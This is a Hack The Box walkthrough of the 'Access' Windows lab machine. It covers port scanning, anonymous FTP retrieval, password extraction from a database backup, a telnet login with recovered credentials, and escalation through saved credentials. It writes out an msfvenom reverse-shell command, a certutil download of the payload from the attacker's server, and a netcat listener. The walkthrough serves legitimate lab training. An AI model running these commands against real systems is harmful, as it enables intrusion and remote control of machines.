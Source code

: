 
# HTB - Access

#### Ip: 10.10.10.98
#### Name: Access
#### Rating: Easy

----------------------------------------------------------------------

Access.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:13 CDT
Nmap scan report for 10.10.10.98
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Looks like just a few ports open, which is somewhat rare for Windows machines. Lets dig in further and use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -sC -sV -T4 10.10.10.98 -p 21,23,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:17 CDT
Nmap scan report for 10.10.10.98
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Taking a look at the site on port 80, we find just a static page with a picture of a server room.

site.png

Nmap caught that we could access FTP anonymously, so lets try that before digging further into http:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ ftp 10.10.10.98  
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
 18% |**************                                                                  |  1024 KiB    0.99 MiB/s    00:04 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
WARNING! 517 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> cd ..
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |********************************************************************************| 10870       34.39 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
10870 bytes received in 00:00 (34.35 KiB/s)
ftp> bye
221 Goodbye.
```

Cool, I was able to grab two files from FTP. Lets checkout backup.mdb first. The .mdb file is a Microsoft DataBase file, I think firstly I'll just try running the `strings` command against it to see if I can find anything juicy that way:

`strings backup.mdb`

strings.png

So looks like maybe a few usernames/ roles, and maybe passwords? lets add these to a list called strings.txt:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ cat >> strings.txt                               
jim
administrator
backup_admin
engineer
access4u@security
admin
```

Lets go back and take a look at the Access Control.zip file. Trying to open it up we see it is password protected. 

ac_passwd.png

Trying access4u@security found in the other file works and we can access the file.

After unpacking it with `readpst` I can find a note from user John:

```text
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```

Nice, looks like we may have some working credentials `security:4Cc3ssC0ntr0ller`

Because there are so few ports open on this box, looks like we may need to try telnet first:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>hostname
ACCESS
```

Cool, we're on the box! Lets grab the user.txt flag:

user_flag.png

### Privilege Escalation

After poking around for awhile and not seeing much, I thought I'd see if there were any passwords cached in memory:

cmdkey.png

Nice! We should be able to escalate privileges from here using RunAs.

First, lets go ahead and use msfvenom to create a reverse shell:

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x64 -f exe > shell.exe
```

Next, we'll start a Python HTTP server using `python -m http.server 80` and then use certutil to download our file onto the target:

```text
certutil -urlcache -split -f "http://10.10.14.22/shell.exe" 
```
Once the reverse shell is on the target we can start up a netcat listener `nc -lnvp 443` and run:

```text
runas /savecred /user:ACCESS\Administrator shell.exe
```

If everything has gone to plan we should catch a shell back as access\administrator.

shell.png

All that's left to do now is grab that root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------------------------------------------